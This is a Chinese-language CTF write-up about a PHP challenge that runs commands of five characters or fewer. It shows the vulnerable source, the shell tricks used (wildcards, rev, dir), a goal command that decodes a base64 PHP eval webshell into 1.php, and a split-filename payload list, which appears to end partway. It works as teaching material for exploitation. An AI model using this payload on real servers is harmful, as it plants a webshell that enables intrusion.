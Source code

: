 攻击完成后就会生成1.php文件

## 5位可控字符的命令执行

```php
<?php
    $sandbox = '/var/www/html/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
?>
```

预备知识：

1. 输入通配符 * ，Linux会把第一个列出的文件名当作命令，剩下的文件名当作参数

2. 通过rev来倒置输出内容（rev命令将文件中的每行内容以字符为单位反序输出）

3. 用dir来代替ls不换行输出；rev将文件内容反向输出；在用ls时，写到a时每个文件名都是单独一行

>rev
>echo 1234 > v
>*v （等同于命令：rev v）

网上有两种解答的方式：一种是curl服务起上写好的文件，进行反弹Shell，而另一种就是写入一句话木马，网上文章详细的解释参看5位可控字符下的命令执行 - 灰信网（软件开发博客聚合），我来将可用性最高的一种方法记录下。

目的：echo${IFS}PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 ‐d>1.php

那么我们只需要将上面的代码拆分倒序输入到主机即可。我们需要让sh先执行a文件（ls -th >f）就会得到f文件，最后再让sh去执行f文件即可得到1.php。最终payload如下

payload.txt

```shell
dir
f\>
ht-
sl
*>v
rev
*v>a
hp
p\\
1.\\
\>\\
-d\\
\ \\
64\\
se\\
ba\\
\|\\
7\\
Sk\\
X\\
x\\
Fs\\
FV\\
d\\
X0\\ 
k\\
g\\
bC\\
```